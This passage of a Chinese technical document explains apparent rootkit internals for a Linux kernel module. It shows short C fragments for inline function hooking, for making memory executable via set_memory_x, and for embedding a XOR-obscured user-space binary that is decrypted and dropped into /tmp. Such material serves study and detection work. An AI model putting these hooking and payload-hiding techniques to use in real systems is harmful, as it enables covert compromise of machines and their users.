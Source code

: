 #### 3.5.2 指令修补技术
```c
// 钩子存根大小
#define STUB_SIZE 80

// 使用LDasm.h中的指令解析器分析目标函数
unsigned int __attribute__((weak)) insn(void *code, ldasm_data *ld);
```

**实现原理**: 
1. 使用`LDasm.h`中的指令解析器分析目标函数的指令结构
2. 创建跳转指令跳转到钩子处理函数
3. 备份原始指令，在卸载时恢复

#### 3.5.3 内存权限控制
```c
// 修复set_memory_x兼容性 - 针对新版本内核
#if LINUX_VERSION_CODE >= KERNEL_VERSION(5,6,0)
#ifndef set_memory_x_t
typedef int (*set_memory_x_t)(unsigned long addr, int numpages);
#endif
extern set_memory_x_t *ptr_mem_x;
#endif
```

**实现原理**: 通过`set_memory_x`函数设置内存页的执行权限，确保钩子代码能够正常执行。

### 3.6 二进制文件嵌入技术

#### 3.6.1 文件加密存储
```c
// 包含加密后的二进制数据块
static char b_block[] = {
#include "file_block.inc"
};

// 块加密函数 - 使用XOR加密算法
inline void blk_enc(char buf[], size_t buf_len, unsigned int _key, size_t key_len)
{
    size_t idx;
    char *key = (char *)&_key;
    
    // 使用XOR算法对每个字节进行加密
    for (idx = 0; idx < buf_len; idx++)
    {
        buf[idx] ^= key[idx % key_len];
    }
}
```

**实现原理**: 
1. 在编译时使用`encode`工具将用户空间程序加密
2. 生成`file_block.inc`头文件包含加密数据
3. 运行时解密并释放到`/tmp`目录
